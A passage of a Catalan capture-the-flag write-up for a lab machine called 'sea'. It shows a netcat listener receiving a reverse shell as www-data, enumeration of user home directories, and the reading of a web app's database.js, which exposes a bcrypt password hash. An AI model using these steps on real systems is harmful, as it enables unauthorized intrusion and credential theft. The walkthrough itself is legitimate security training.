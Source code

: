 I ara veiem que des del port que estàvem escoltant estem dins la màquina que estem atacant amb l'usuari www-data:

```
┌──(polkali㉿kaliPol)-[~]
└─$ nc -nlvp 4444                                                                                                      
listening on [any] 4444 ...
connect to [10.10.14.185] from (UNKNOWN) [10.10.11.28] 51934
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:32:03 up  1:41,  1 user,  load average: 0.00, 0.02, 1.44
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Ara, haurem de cercar a veure si trobem credencials d'algun usuari per poder connectar-nos a través de ssh ja que la màquina víctima té el port 22 amb el servei ssh obert. Al home veiem que hi ha dos usuaris, però amb cap dels dos podem fer res, amb amay no podem obrir el fitxer que hi ha al home i amb geo no podem accedir al seu home:

```
$ cd home
$ ls
amay
geo
$ cd amay
$ ls
user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ cd ..
$ cd geo
/bin/sh: 12: cd: can't cd to geo
$ 
```

Per tant, toca fer una cerca en profunditat pels directoris i fitxers del servidor web/màquina víctima. Després de donar moltes voltes, trobo aquest fitxer, que per el nom era molt prometedor, i efectivament, hi ha la contrasenya en hash  que deu ser d'un dels dos usuaris que hem trobat que tenen home:

```
$ cat /var/www/sea/data/database.js   
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": true,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/21 18:47:27": "127.0.0.1",
            "2024\/08\/21 18:37:56": "127.0.0.1",
            "2024\/08\/21 18:35:26": "127.0.0.1",
            "2024\/08\/21 18:27:56": "127.0.0.1",
            "2024\/08\/21 18:19:25": "127.0.0.1"
        },
```